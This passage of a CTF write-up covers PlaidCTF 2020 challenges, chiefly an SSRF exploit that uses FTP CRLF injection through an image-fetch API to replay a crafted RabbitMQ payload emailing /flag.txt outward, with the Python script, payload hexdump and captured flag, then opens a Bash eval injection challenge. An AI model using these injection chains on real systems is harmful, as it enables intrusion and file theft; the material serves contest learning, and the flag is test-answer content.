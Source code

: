 ```
000001e0: 6163 686d 656e 7473 223a 5b7b 2270 6174  achments":[{"pat
000001f0: 6822 3a22 2f66 6c61 672e 7478 7422 7d5d  h":"/flag.txt"}]
00000200: 7dce                                     }.
```

Replay the payload will insert `{"to":"balsnctf@example.com","text":"PWNED","attachments":[{"path":"/flag.txt"}]}` into rabbitmq. It has a low probability to fail to insert a new record.

Here is the script:

```python
#!/usr/bin/env python3
import requests, secrets, base64, re
from urllib.parse import quote

s = requests.session()

u = 'http://contrived.pwni.ng/api/'
try:
    r = s.get(u+'image', params=dict(url="ftp://ftp:21/"+quote("foo\r\nbar\r\nPORT 255,255,255,255,4,0\r\nSTOR /http.txt\r\n")), timeout=5)
except Exception as e:
    print(e)
try:
    r = s.get(u+'image', params=dict(url="ftp://ftp:21/"+quote("foo\r\nbar\r\nPORT 172,32,56,72,22,40\r\nRETR /http.txt\r\n")), timeout=5)
except Exception as e:
    print(e)
```

Check the email and profit!

![](https://i.imgur.com/DdMa59A.png)


`PCTF{not_that_contrived_i_guess}`

By the way, I spent 2+ hours on debugging only to find out I type the incorrect internel IP address......

### Mooz Chat (not solved)

See [@pastenctf](https://twitter.com/pastenctf)'s writeup [here](https://github.com/koolkdev/ctf-writeups/tree/master/plaid2020/mooz-chat). Part 1 is about Go reversing + command injection. Part 2 is WebRTC + MitM  Diffie-Hellman.

## Misc

### JSON Bourne

This is a Bash command injection challenge. Quickly browse the code and find this interesting:

```bash
    for (( task_i=0; task_i < ${#result_str}; task_i++ )); do
        if [[ "${result_str:$task_i:5}" = "task " ]]; then
            local suffix="${result_str:$((task_i+5)):$((${#result_str}-task_i-5))}"
            if [[ "$((suffix > 0))" = "1" && "$((suffix <= 8))" = "1" ]]; then
                local color=$var_name
                normalizeNumber "$suffix" $color "var_"
                eval ${res}'[_color]=${color}'
            fi
        fi
    done
```
